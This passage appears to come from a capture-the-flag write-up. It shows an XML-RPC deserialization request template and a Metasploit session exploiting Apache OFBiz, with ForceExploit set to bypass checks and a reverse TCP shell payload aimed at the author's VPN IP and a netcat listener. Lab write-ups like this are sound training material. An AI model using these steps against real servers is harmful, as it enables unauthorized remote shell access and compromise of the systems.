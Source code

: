 ```xml
<?xml version="1.0"?>
        <methodCall>
          <methodName>METHODNAME</methodName>
          <params>
            <param>
              <value>
                <struct>
                  <member>
                  <name>NAME</name>
                    <value>
                      <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">PAYLOAD</serializable>
                    </value>
                  </member>
                </struct>
              </value>
            </param>
          </params>
        </methodCall>
```

Selecting the module  we `set ForceExploit true` to bypass the checks, set the `srvport` to a free, bindable port on our machine, set `RHOSTS` to `127.0.0.1` and set `RPORT` to the port we forwarded to.  We then set `LHOST` to our vpn ip and  `LPORT` to the port we want to listen on to catch the shell. We also set `DisablePayloadHandler` to true to catch it ourselves and set `PAYLOAD` to `linux/x64/shell_reverse_tcp`.
Confirming all options are correct and our netcat listener is up, we run the exploit.

```
msf6 > use linux/http/apache_ofbiz_deserialization
[*] Using configured payload linux/x64/meterpreter_reverse_https
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set ForceExploit true
ForceExploit => true
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set srvport 8090
srvport => 8090
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set lhost 10.10.14.24
lhost => 10.10.14.24
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set lport 7575
lport => 7575
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set DisablePayloadHandler true
DisablePayloadHandler => true
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set payload linux/x64/shell_reverse_tcp
payload => linux/x64/shell_reverse_tcp
msf6 exploit(linux/http/apache_ofbiz_deserialization) > options

Module options (exploit/linux/http/apache_ofbiz_deserialization):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8443             yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


```